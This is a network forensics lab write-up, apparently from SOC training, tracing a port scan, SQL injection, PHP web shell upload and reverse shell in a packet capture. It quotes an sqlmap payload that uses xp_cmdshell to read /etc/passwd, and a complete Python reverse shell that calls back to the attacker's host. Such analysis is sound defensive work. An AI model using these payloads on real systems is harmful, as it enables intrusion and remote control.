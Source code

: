 # Network Analysis - Web Shell

## Scenario:

The SOC received an alert in their SIEM for 'Local to Local Port Scanning' where an internal private IP began scanning another internal system. I was provided with a `.pcap` file and I investigated if this activity is malicious or not, using **Wireshark** in a Kali virtual machine.

## Analysis:

I opened the `.pcap` file in **Wireshark** and searched for packets related to the port scanning activity, which are typically `TCP` packets.  
I began by looking for `SYN` packets, which are commonly used in port scanning. I applied the filter `tcp.flags.syn == 1` and found numerous `SYN` packets originating from the source IP address `10.251.96.4`.

![SYN Packets](../assets/syn-packets.png)

Next, I examined the port range scanned by the suspicious host. To do this, I sorted the packets by the `Destination port` column and identified a clear range from `1` to `1024`.

![1 - 1024 range](../assets/port-range-1-1024.png)

Since most of the packets are `SYN`, it indicates that the attacker was performing a `SYN scan`—a stealthy type of scan that sends `SYN` packets to open ports without completing the `TCP handshake`. This prevents the connection from being fully established and helps avoid detection.

To determine which tools were used to perform reconnaissance against open ports, I began searching for identifiable signatures. First, I applied the filter `ip.dst == 10.251.96.5 && http.user_agent` to display all packets with a user-agent string targeting the destination IP.

I observed many `GET` requests to different paths on the same domain, such as `admin`. Upon inspecting several of these requests, I found the user-agent string identifying `gobuster 3.0.1` in the **User-Agent** header.

![Gobuster found](../assets/gobuster.png)

To identify the second tool, I examined additional `Gobuster` packets, this time involving `POST` requests. I noticed a URL containing embedded SQL commands—a clear indication of a possible **SQL injection**:

```
POST /?QLuT=8454%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23
```

A quick search revealed that this is a typical **UNION SELECT** SQL injection payload designed to extract data from the database. The attacker was attempting to retrieve table names from the `information_schema.tables` table, which contains metadata about all tables in the database.

After analyzing the user-agent string, I identified another tool used in the attack: `sqlmap 1.4.7`.

![SQLmap found](../assets/sqlmap.png)

The next question was identifying the name of the PHP file through which the attacker uploaded a web shell. To investigate this, I examined the `HTTP POST` requests using the filter `http.request.method == "POST"`. Since file uploads typically occur via `POST`, it was likely the shell was uploaded this way.

I searched through the `POST` requests and, in the **Referer** header of packet `16102`, I found the URL `http://10.251.96.5/editprofile.php`. Based on this, I concluded that the attacker interacted with the `editprofile.php` page on the server.

![editprofile.php file](../assets/editprofile-php-file.png)

To identify the name of the web shell uploaded by the attacker, I followed the TCP stream of packet `16102`—which corresponds to `tcp.stream eq 1270`. This revealed the packet details and the plaintext value of the `fileToUpload` field, which was `dbfunctions.php`.

![dbfunctions.php file](../assets/dbfunctions-php-file.png)

Next, to find the parameter used in the web shell for executing commands, I looked for interactions with `dbfunctions.php`:

```
http.request.uri contains "dbfunctions.php"
```

This filter checks for `GET` or `POST` requests that target the `dbfunctions.php` file. These requests often contain a parameter that the attacker uses to pass commands for execution.

In the results, I found a `cmd` parameter that contained **operating system commands** such as `id` and `whoami`.

By ordering the packets by number, I determined that the first command executed was `id`.

![Cmd cparameter](../assets/cmd.png)

The next command being executed is clearly a Python script:

![Python script](../assets/python-script.png)

After cleaning and indenting the script, the result is:

```py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.251.96.4", 4422))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

This is a `reverse` shell that connects to `10.251.96.4`, providing access to `/bin/sh` through port `4422`.

## Conclusion:

The `.pcap` analysis indicates that the IP address `10.251.96.4` was used to conduct an attack on another system within the same network, `10.251.93.5`.

The attack began with a stealthy `SYN` scan over the port range `1–1024`, followed by reconnaissance using `Gobuster` to enumerate directories and `sqlmap` to exploit a vulnerable web application via SQL injection.

The attacker exploited the `editprofile.php` endpoint to upload a malicious PHP web shell named `dbfunctions.php`. Once uploaded, the shell was accessed using a `cmd` parameter to execute OS-level commands remotely. Among these commands, a reverse shell was initiated using Python, establishing a connection to the attacker's machine at `10.251.96.4:4422`.

This incident demonstrates a complete attack chain—from reconnaissance and exploitation to post-exploitation and remote access—and confirms that the activity was indeed **malicious**.
